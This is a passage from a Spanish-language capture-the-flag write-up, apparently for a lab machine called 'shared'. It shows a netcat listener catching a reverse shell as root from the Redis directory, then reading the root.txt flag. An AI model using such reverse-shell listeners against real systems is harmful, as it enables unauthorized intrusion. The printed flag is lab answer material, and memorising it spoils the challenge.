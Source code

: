 Y ganamos acceso

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.172] 57300
bash: cannot set terminal process group (7371): Inappropriate ioctl for device
bash: no job control in this shell
root@shared:/var/lib/redis# whoami
whoami
root
root@shared:/var/lib/redis# 
```

## Root.txt 

```bash
root@shared:~# cat root.txt 
7b9df1e3c9916667be8d156601e3551a
root@shared:~#
```
